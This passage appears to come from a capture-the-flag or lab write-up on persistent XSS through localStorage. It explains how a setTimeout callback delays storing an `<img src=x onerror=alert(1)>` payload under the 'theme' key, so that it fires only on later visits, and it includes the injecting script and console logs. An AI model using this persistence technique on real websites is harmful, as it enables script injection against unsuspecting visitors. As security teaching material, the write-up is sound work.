 ### Why This Works

**Execution timeline:**

```
t=0ms:    XSS payload executes
t=0ms:    setTimeout schedules callback (pushed to event queue)
t=0ms:    Current script finishes
t=0ms:    Page's JavaScript reads from localStorage (finds nothing malicious)
t=0ms:    Page renders normally
t=0ms:    Call stack is empty
t=0ms+:   Event loop processes setTimeout callback
t=0ms+:   Callback sets malicious localStorage value
          ✓ No alert on first visit!
```

**On subsequent visits:**

```
t=0ms:    Page loads
t=0ms:    Page's JavaScript reads from localStorage
t=0ms:    Finds malicious value: '<img src=x onerror=alert(1)>'
t=0ms:    Injects into DOM
t=0ms:    Browser tries to load image from src=x
t=0ms:    Load fails, triggers onerror
t=0ms:    alert(1) executes
          ✓ Alert on subsequent visits!
```

### Testing the Timing

I verified this with detailed logging:

```javascript
<script>
console.log('A. Before setTimeout');
setTimeout(function() {
    console.log('C. Inside setTimeout callback');
    localStorage.setItem('theme', '<img src=x onerror=alert(1)>');
}, 0);
console.log('B. After setTimeout');
</script>
```

Output:

```
A. Before setTimeout
B. After setTimeout
C. Inside setTimeout callback
```

This confirmed that even with a zero delay, the callback executes **after** the current script completes.

## Stuck Point #2: Finding the Right localStorage Keys
